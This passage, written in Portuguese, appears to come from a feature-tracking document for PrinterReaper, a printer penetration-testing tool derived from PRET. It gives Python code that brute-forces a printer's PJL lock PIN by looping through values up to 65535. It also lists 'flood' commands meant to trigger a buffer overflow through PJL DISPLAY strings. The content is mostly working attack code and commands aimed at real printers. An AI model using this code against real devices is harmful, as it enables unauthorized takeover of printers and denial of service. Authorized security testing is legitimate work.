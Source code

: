 ### 8️⃣ **CREDENTIAL DISCLOSURE**

#### 8.1 Lock/Unlock Brute Force
**Descrição**: Testar PINs para desbloquear impressora  
**Status**: ✅ **IMPLEMENTADO (BÁSICO)**  
**Comando PRET**: `lock, unlock`  
**Comando PrinterReaper**: `lock, unlock`  
**PJL Underlying**: `@PJL SET LOCKPIN=<pin>`

**Teste**:
```
lock 12345
unlock 12345
```

**Melhoria Necessária**: Brute force automation
```python
def do_unlock_bruteforce(self, arg):
    """Brute force unlock PIN"""
    start = 1
    end = conv().int(arg) or 65535
    for pin in range(start, end + 1):
        try:
            result = self.cmd(f"@PJL SET LOCKPIN={pin}")
            if "OK" in result:
                output().info(f"PIN found: {pin}")
                return
        except:
            pass
```

---

### 9️⃣ **CODE EXECUTION**

#### 9.1 Buffer Overflow Attack
**Descrição**: Tentar buffer overflow com dados grandes  
**Status**: ✅ **IMPLEMENTADO**  
**Comando PRET**: `flood`  
**Comando PrinterReaper**: `flood <size>`  
**PJL Underlying**: `@PJL DISPLAY "<large_string>"`

**Teste**:
```
flood 10000
flood 50000
flood 100000
```

#### 9.2 LPD Code Execution (Fora do escopo PJL)
**Status**: ❌ **NÃO APLICÁVEL** (requer módulo LPD)

---
